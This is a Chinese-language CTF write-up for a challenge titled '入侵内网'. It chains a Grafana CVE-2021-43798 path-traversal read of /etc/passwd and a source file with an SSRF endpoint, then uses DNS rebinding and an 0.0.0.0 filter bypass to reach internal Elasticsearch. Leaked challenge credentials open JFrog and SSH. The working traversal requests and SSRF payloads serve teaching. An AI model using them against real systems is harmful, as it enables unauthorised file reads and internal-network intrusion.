

# 第五题：入侵内网


## 开始的地方

开局：一个链接，一个json。

- http://101.132.189.74/index
- `{ "msg": " /etc/server.go"}`

server.go明显就是下一步的目标。那要怎么样才能获取server.go的内容呢？

暂时什么线索都不明朗，那就先漏洞扫描吧，看看有哪些端口泄漏。


## Web 漏洞扫描

### 扫描漏洞

使用 yakit 对 101.132.189.74 常见漏洞端口进行扫描。

> [yakit](https://github.com/yaklang/yakit) 是一个网络安全的单兵作战工具。



| 主机地址                | HTML Title | 指纹                                           | 扫描时间                |
|---------------------|------------|----------------------------------------------|---------------------|
| 101.132.189.74:8088 | Grafana    | http/zyxel[gs1]                              | 2022-10-30 13:27:06 |
| 101.132.189.74:8088 | Grafana    | http/zyxel[gs1]                              | 2022-10-30 13:27:06 |
| 101.132.189.74:8081 | JFrog      | http                                         | 2022-10-30 13:27:06 |
| 101.132.189.74:8081 | JFrog      | http                                         | 2022-10-30 13:27:06 |
| 101.132.189.74:8082 | JFrog      | http                                         | 2022-10-30 13:27:05 |
| 101.132.189.74:8082 | JFrog      | http                                         | 2022-10-30 13:27:05 |
| 101.132.189.74:2222 |            | linux_kernel/openssh[8.9p1]/ssh/ubuntu_linux | 2022-10-30 13:25:32 |
| 101.132.189.74:110  |            | pop3                                         | 2022-10-30 13:25:07 |
| 101.132.189.74:25   |            | smtp                                         | 2022-10-30 13:25:02 |
| 101.132.189.74:80   |            | http                                         | 2022-10-30 13:24:36 |
| 101.132.189.74:80   |            | http                                         | 2022-10-30 13:24:36 |

其中，暴露了如下后台管理web入口：

- http://101.132.189.74:8088/login   => grafana
- http://101.132.189.74:8082/ui/login/  => JFrog
- 101.132.189.74:2222 => openssh


### Grafana任意文件读取漏洞

利用 CVE-2021-43798 - Grafana 文件读取漏洞，读取提示的 etc/server.go 文件。

先试探一下plugins漏洞。

```URL
http://101.132.189.74:8088/public/plugins/a/a
```

```json
// 20221030135121
// http://101.132.189.74:8088/public/plugins/a/a

{
  "message": "Plugin not found"
}
```

得到确定，那就开始吧。尝试一个精心设计的路径。

```http
GET /public/plugins/text/../../../../../../../../../../etc/passwd HTTP/1.1
```

部分反代会使用中间件来标准化URL，可能需要在URL中使用#号绕过反代机制。

```http
GET /public/plugins/text/#/../../../../../../../../../../etc/passwd HTTP/1.1
```

---

一旦这种获取方式成功，那就替换成：

````http
GET /public/plugins/text/../../../../../../../../../../etc/server.go HTTP/1.1
````

取得server.go文件。


### 探索服务端程序的攻击点

开始阅读server.go源码。发现：

- crack5相关信息在本地package中：import "crack5/utils/try" => GOPATH/src/crack5/utils/try
- 还有一个API为 /get

````go
func LoadUrl(r *gin.Engine) {
	r.Use(Cors())
	r.GET("/get", GetData) // here
	r.GET("/index", Info)
}
````

我们可以利用这个 /get API来获取感兴趣的内容。

```http
http://101.132.189.74/get?t={}
```

现在需要思考，在{}中填入什么参数。

深入阅读 GetData 函数，发现这部分关键代码：

```go
if (u.Scheme != "http" && u.Scheme != "https") || IsInternalIp(u.Hostname()) {
    c.JSON(http.StatusBadRequest, gin.H{
    	"msg": "illage url",
    })
	return
}

easy := curl.EasyInit()
defer easy.Cleanup()
easy.Setopt(curl.OPT_URL, target)
easy.Setopt(curl.OPT_TIMEOUT, 3)
easy.Setopt(curl.OPT_FOLLOWLOCATION, false)
easy.Setopt(curl.OPT_WRITEFUNCTION, func (buf []byte, extra interface{}) bool {
    c.Data(http.StatusOK, "text/html", buf)
    return true
})
```

这段代码授权访问一个任意的http(s)的URL链接，并输出内容。可见，这里操作空间很大。

可以通过这部分代码逻辑来访问一个格式合法的网址链接。 例如: http://101.132.189.74/get?t=http://example.com

我们已经发现攻击内网其他服务的关键点了。只要t参数是一个内网的服务端点，就应该能通过DNS Rebinding来访问。


## 进击的hacker

我们现在可以利用上面的攻击点来访问该IP的其他公开的端口。例如 ElasticSearch 的9200或者儿9300端口。


### DNS Rebinding 的原理

- 某位 hacker 注册了一个域名A。并且满足：这个域名解析服务器返回的DNS解析的TTL（存活时间）很短，可能就1s。
- hacker 诱导某位不明真相的吃瓜群众去访问这个域名A。浏览器第一次访问是正常的，后续访问域名A时，因为这个域名A的存活时间太短了，浏览器不得不再次发起DNS解析查询，而不是使用DNS本地cache。如果此时恶意域名服务器如果返回的是内网IP ，例如127.0.0.1，那么就可以达到入侵访问内网的目的。这个事件的成功率不是百分百的，只有当你的手速刚好位于两次DNS解析的间隔之间时，就能入侵成功。


### 手速！手速！

现在，我们需要一个DNS Rebinding的服务。

这里使用的是一个网上的开发服务，访问 https://lock.cmpxchg8b.com/rebinder.html?tdsourcetag=s_pctim_aiomsg 。

填入 A和B的地址：

- A: 127.0.0.1
- B: 101.132.189.74

DNS解析会在这两个结果IP之间随机返回。

之后，在本地进行DNS测试，使用host或者nslookup指令

```bash
> nslookup 6584bd4a.7f000001.rbndr.us
服务器:  UnKnown
Address:  fe80::1

非权威应答:
名称:    6584bd4a.7f000001.rbndr.us
Address:  127.0.0.1

==========================================

> nslookup 6584bd4a.7f000001.rbndr.us
服务器:  UnKnown
Address:  fe80::1

非权威应答:
名称:    6584bd4a.7f000001.rbndr.us
Address:  127.0.0.1

==========================================

> nslookup 6584bd4a.7f000001.rbndr.us
服务器:  UnKnown
Address:  fe80::1

非权威应答:
名称:    6584bd4a.7f000001.rbndr.us
Address:  101.132.189.74
```

当访问 6584bd4a.7f000001.rbndr.us 时，结果可能为 127.0.0.1 或者 101.132.189.74。

因为 6584bd4a.7f000001.rbndr.us 域名解析的TTL（存活时间）太小了，几乎是瞬间失效，因此每次都要查询。

现在可以构造出精心设计的URL参数了：

```
http://101.132.189.74/get?t=http://6584bd4a.7f000001.rbndr.us:9200
```

浏览器访问时，疯狂刷新尝试多次之后，可以得到elasticsearch的信息。个人经验是5-10次刷新之后可以拿到想要结果。

```json
{
  "name" : "ali-sh-sec-ctf-25aaa86-01",
  "cluster_name" : "elasticsearch",
  "cluster_uuid" : "ikcj8ysFR2KnnTa5chqvUA",
  "version" : {
    "number" : "7.17.6",
    "build_flavor" : "default",
    "build_type" : "deb",
    "build_hash" : "f65e9d338dc1d07b642e14a27f338990148ee5b6",
    "build_date" : "2022-08-23T11:08:48.893373482Z",
    "build_snapshot" : false,
    "lucene_version" : "8.11.1",
    "minimum_wire_compatibility_version" : "6.8.0",
    "minimum_index_compatibility_version" : "6.0.0-beta1"
  },
  "tagline" : "You Know, for Search"
}
null
```

上面的信息一眼就能得知是elasticsearch，现在我们需要思考利用ES获取更多的线索信息。

常见ES的Web API链接：

```
http://localhost:9200/_cat/indices   //索引列表
http://localhost:9200/_river/_search //查看数据库敏感信息
http://localhost:9200/_nodes         //查看节点数据
http://localhost:9200/_plugin/head/  //web管理界面，如果安装了head插件
```

---
=> http://101.132.189.74/get?t=http://6584bd4a.7f000001.rbndr.us:9200/_cat/indices

```
green open .geoip_databases CkETGon2QY-4M2mEK2UWJw 1 0 41 38 39.1mb 39.1mb yellow open bilibili-1024 SmBCxYqBTu2qbD1Db9B7UA 1 1 1 0 5.7kb 5.7kb null
```

上面信息可读性很差，我们可以只列出index。

=》http://101.132.189.74/get?t=http://6584bd4a.7f000001.rbndr.us:9200/_cat/indices?h=index

```
.geoip_databases bilibili-1024
```

推测是这个 bilibili-1024 索引会有进一步的信息，.geoip_databases 索引可能性不大。


### 拿下flag

那么访问  http://101.132.189.74/get?t=http://6584bd4a.7f000001.rbndr.us:9200/bilibili-1024/_search

可以得到：

```json
    "hits": [
      {
        "_index": "bilibili-1024",
        "_type": "_doc",
        "_id": "2eSE84MBoy7sRgaelu2S",
        "_score": 1.0,
        "_source": {
          "username": "ctfer",
          "passwd": "1qaz@WSX",
          "ttl": "false",
          "msg": "good luck ctfer"
        }
      }
    ]
```

这个账号密码有可能是JFrog的，也可能是openssh的。都试一下吧。发现是JFrog的。

=> 访问 8082端口

登录之后在 http://101.132.189.74:8082/ui/native/generic-local/ssh_info 找到ssh登陆凭证的下载路径。

下载后打开文件内容：`ctfer/91431d5438eb28f7`。然后登陆ssh登陆：101.132.189.74:2222。

```bash
ctfer@26c23327b33c:~$ ls
flag  tools
ctfer@26c23327b33c:~$ cat flag
flag5{Ez_G0laNg_SsRf}
```

顺利拿到flag5。


## 其他可能的解决办法

- 不需要使用DNS Rebinding，使用 http://101.132.189.74/get?t=http://0.0.0.0:9200 也能访问到内网。因为 IsInternalIp() 的过滤规则不够完善。


## 参考

- [Grafana 文件读取漏洞分析与汇总(CVE-2021-43798)](https://blog.riskivy.com/grafana-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E6%B1%87%E6%80%BBcve-2021-43798/)